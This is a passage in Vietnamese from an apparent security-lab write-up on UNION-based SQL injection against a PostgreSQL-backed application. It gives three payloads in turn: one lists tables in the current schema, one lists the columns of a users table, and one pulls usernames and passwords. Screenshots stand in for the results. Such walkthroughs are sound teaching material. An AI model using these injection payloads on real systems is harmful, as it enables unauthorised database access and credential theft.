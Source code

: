 Sau khi tra cứu thông tin thì ta có thể lấy ra các table liên quan đến PostgreSQL bằng cách thêm table_schema = current_schema()

Query: ' UNION SELECT NULL,table_name FROM information_schema.tables WHERE table_schema = current_schema()--

![](Images/image29.png)

Kết quả lấy ra bây giờ chỉ còn 2 table liên quan nhất

Để lấy các cột từ table **users_gukpvx** ta dùng query: ' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name ='users_gukpvx'--

![](Images/image30.png)

Lấy thông tin username và password:

Query: ' UNION SELECT username_xwsfip,password_wxzacw FROM users_gukpvx--

![](Images/image31.png)
